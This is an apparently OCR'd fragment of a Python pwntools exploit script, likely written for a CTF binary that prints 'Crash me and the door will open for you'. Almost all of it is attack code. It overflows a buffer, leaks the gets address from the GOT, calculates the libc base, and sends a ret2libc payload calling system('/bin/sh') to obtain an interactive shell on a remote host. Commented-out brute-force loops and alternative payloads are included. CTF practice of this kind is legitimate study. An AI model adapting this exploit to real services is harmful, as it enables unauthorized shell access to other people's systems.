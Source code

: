 ```
        print p.recv()
        p.close()
        return 0
    else:
        print "win"
        pause()
        p.interactive()

# 178, 130
# 6, 131

# 0x080485b9  #code_begin 
# 0x080484d0 
gets_got = 0x0804a014  #0xf76032b0

gets_plt = 0x08048440  #0x804a014
printf_plt = 0x08048430  #0x804a010
#   0x08048400
#   0x0804a028
'''
libc_base = send_addr - libc.symbols['send']
binsh_offset = next(libc.search('/bin/sh'))
binsh_addr = libc_base + binsh_offset
system_addr = libc_base + libc.symbols['system']
'''
#0x080484c2
#0x080485d9
def test(i, j):
    p = remote("xxxxxxx", xxxx)
    #payload = "A"*0x40c + p32(0x08048430) + p32(0x080484c4) + p32(0x080484c4)
    #payload = "A"*0x40c + p32(0x080484c4) 
    payload = "A"*0x40c + p32(0x08048490) + p32(0x080484d0) + p32(0x0804a014)
    p.sendline(payload)
    p.recvuntil("Crash me and the door will open for you.\n")
    gets_addr = u32(p.recv()[0:4])
    libc_base = gets_addr - libc.symbols['gets']
    binsh_offset = next(libc.search('/bin/sh'))
    binsh_addr = libc_base + binsh_offset
    system_addr = libc_base + libc.symbols['system']
    payload = "A"*0x40c + p32(system_addr) + p32(0x08048440) + p32(binsh_addr)
    p.sendline(payload)
    #print hex(gets_addr)
    #print p.recv
    p.interactive()
    exit(0)

test(48, 132)
#payload = "A"*0x40c + p32(0x08048430) + p32(0) + p32(0x0804a014)
#payload = "A"*0x40c + p32(0x08048430) + p32(0) + p32(0x0804a010)
# payload = "A"*0x40c + p32(0x08048440) + p32(0x08048430) + p32(0x0804a200) + p32(0x0804a200)
'''
for j in range(0x84, 0x85):
    for i in range(0x80, 0x100, 0x1):
        try:
            log.info(str(i) + ", " + str(j))
            sploit(i, j)
        except:
            pass
'''

#dump file
# f=open('./bin','w')
# b=''
```